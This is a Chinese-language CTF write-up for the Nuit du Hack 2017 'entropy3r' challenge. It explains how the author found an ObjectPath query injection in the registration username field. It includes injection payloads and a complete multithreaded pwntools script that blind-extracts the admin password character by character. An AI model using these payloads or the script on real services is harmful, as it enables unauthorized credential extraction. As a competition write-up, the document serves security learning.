 # nhdctf 2017 'entropy3r'

这道题最后发现其实不难，主要是一开始思路完全被误导了。看到提醒是 exploit，以为是 pwn 类型的题目，要找 溢出或者 leak 方面的漏洞。再加上程序有个 debug 选项，可以打印出很多信息，就往 debug 打印出的信息那里去想了。

这个程序 register 的时候，会对你的密码进行强度评估，如果开了 debug，会把评估强度的算法的内部数据结构给打印出来。因为看到另外一题 client 用到了一个叫 zxcvbn 的库，去网上搜了一下，发现正好和这道题 debug 打印出的东西很类似。发现这道题原来是调用了这个https://github.com/dwolfhub/zxcvbn-python

然后尝试去发现这个库有没有什么漏洞，没有找到。register 的时候输入 admin 会提示已经被注册过。然后一次偶然发现用户名输入 ['a', 'b', 'c' ]会报异常

```shell
~ » register
Registration Form
​~~~~~~~~~~~~~~~~~

Username # ['a', 'b', 'c']
objectpath exception : SyntaxError: Expected ']', got (name)
```

网上搜索了一下 objectpath，发现程序用的是这个库，http://objectpath.org/reference.html

```shell
~ » register
Registration Form
​~~~~~~~~~~~~~~~~~

Username # admin' or '1' is '1
ERROR : User admin' or '1' is '1 already exists !
```

判断出了程序结构，是在 username 两边加入单引号，然后程序会调用 $..*[@.username is 'admin']这样的来判断注册的用户名是否存在。

然后拿admin' or '1' is '1去尝试了 auth，但是不行。突然想到 register 这里可以盲注，利用放回结果是 already exists 还是 OK，来判断执行结果的真假

```shell
~ » register
Registration Form
​~~~~~~~~~~~~~~~~~

Username # admin' and len($..*[@.password][0]) > 0 and '1' is '1
ERROR : User admin' and len($..*[@.password][0]) > 0 and '1' is '1 already exists !
~ »
```

发现存在 password 字段和 flag 字段，然后就是写脚本爆破了。本地连上去速度太慢，放在法国的 vps 跑的。一开始速度并没有提高多少，后来 melody 发现如果判断失败的话，直接断开连接重连比程序返回运算结果要来的快很多。

最后的脚本，我还把它改成多线程版的，但是发现没有比单线程快，可能和线程的数量，建立的连接的数目还有关系。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import threading, time
import sys, os, re
import string

def debug():
    p.sendline("debug")


def auth(user, password):
    p.sendline("auth")
    p.sendlineafter("Login", user)
    p.sendlineafter("Password", password)

class myThread(threading.Thread):
    def __init__(self, index):
        threading.Thread.__init__(self)
        self.i = index
        self.p = remote('entrop3r.quals.nuitduhack.com', 31337)
    def run(self):
        self.bruteforce(self.i)
    def register(self, user):
        self.p.sendline("register")
        self.p.sendlineafter("Username", user)
        res = self.p.recvline()
        if res.find("already exists") >= 0:
            return True
        elif res.find("OK") >= 0:
            self.p.close()
            self.p = remote('entrop3r.quals.nuitduhack.com', 31337)	#这里直接断开连接重连
            return False

    def bruteforce(self, i):
        flag = False
        print "current i:", i
        for c in string.printable:
            user = "admin' and slice($..*[@.password][0], [%d,%d]) is '%c' and '1' is '1" % (i, i+1, c)
            res = self.register(user)
            if res:
                password[i] = c
                print "index %d is:%c" % (i, c)
                flag = True
                self.p.close()
                break

        if not flag:
            raise Exception

threads = []
pass_len = 76
i = 0
password = {}
for i in xrange(0, 76):
    thread = myThread(i)
    thread.start()
    threads.append(thread)

for t in threads:
    t.join()
password = ''.join([ x[1] for x in sorted(password.items(), key=lambda x: x[0])])
print "result:", password

p.interactive()
```

